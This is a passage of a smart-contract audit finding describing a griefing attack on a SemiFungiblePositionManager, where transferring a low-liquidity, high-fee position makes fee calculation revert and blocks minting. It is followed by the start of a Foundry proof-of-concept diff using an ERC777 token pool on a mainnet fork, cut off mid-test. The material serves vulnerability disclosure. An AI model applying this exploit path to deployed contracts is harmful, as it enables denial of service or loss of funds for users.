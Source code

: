 Another attack possible is to transfer a position where the liquidity is low ( instead of adding in the above steps the attacker withdraws majority of the liquidity keeping a negligible amount left) and the feeBase is high. This will cause the fees calculation in the transferred address to revert hence disabling any mint on that position

### POC Code
Set fork_block_number = 18706858
Run : `forge test --mt testHash_FeesBaseReentry`
```diff
diff --git a/test/foundry/core/SemiFungiblePositionManager.t.sol b/test/foundry/core/SemiFungiblePositionManager.t.sol
index 5f09101..90c6c48 100644
--- a/test/foundry/core/SemiFungiblePositionManager.t.sol
+++ b/test/foundry/core/SemiFungiblePositionManager.t.sol
@@ -20,6 +20,7 @@ import {SqrtPriceMath} from "v3-core/libraries/SqrtPriceMath.sol";
 import {PoolAddress} from "v3-periphery/libraries/PoolAddress.sol";
 import {PositionKey} from "v3-periphery/libraries/PositionKey.sol";
 import {ISwapRouter} from "v3-periphery/interfaces/ISwapRouter.sol";
+import {INonfungiblePositionManager} from "v3-periphery/interfaces/INonfungiblePositionManager.sol";
 import {SemiFungiblePositionManager} from "@contracts/SemiFungiblePositionManager.sol";
 import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
 import {PositionUtils} from "../testUtils/PositionUtils.sol";
@@ -50,6 +51,15 @@ contract UniswapV3FactoryMock {
     }
 }
 
+interface IERC1820Registry {
+    function setInterfaceImplementer(address account, bytes32 _interfaceHash, address implementer) external;
+}
+
+interface IMBTC {
+    function addMinter(address account) external;
+    function mint(address recipient, uint256 amount, bytes calldata userData, bytes calldata operatorData) external;
+}
+
 contract SemiFungiblePositionManagerTest is PositionUtils {
     using TokenId for uint256;
     using LeftRight for uint256;
@@ -81,6 +91,8 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         IUniswapV3Pool(0x8ad599c3A0ff1De082011EFDDc58f1908eb6e6D8);
     IUniswapV3Pool[3] public pools = [USDC_WETH_5, USDC_WETH_5, USDC_WETH_30];
 
+    address imBTC = 0x3212b29E33587A00FB1C83346f5dBFA69A458923;
+    address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
     /*//////////////////////////////////////////////////////////////
                               WORLD STATE
     //////////////////////////////////////////////////////////////*/
@@ -239,6 +251,139 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
 
     function setUp() public {
         sfpm = new SemiFungiblePositionManagerHarness(V3FACTORY);
+        address imbtcusdcpool = V3FACTORY.createPool(imBTC, usdc, 500);
+        uint160 startPrice = 1584563250285286800000000000000;
+        IUniswapV3Pool(imbtcusdcpool).initialize(startPrice);
+        _cacheWorldState(IUniswapV3Pool(imbtcusdcpool));
+        sfpm.initializeAMMPool(token0, token1, fee);
+    }
+
+    function testHash_FeesBaseReentry() public {
+        assert(token0 == imBTC);
```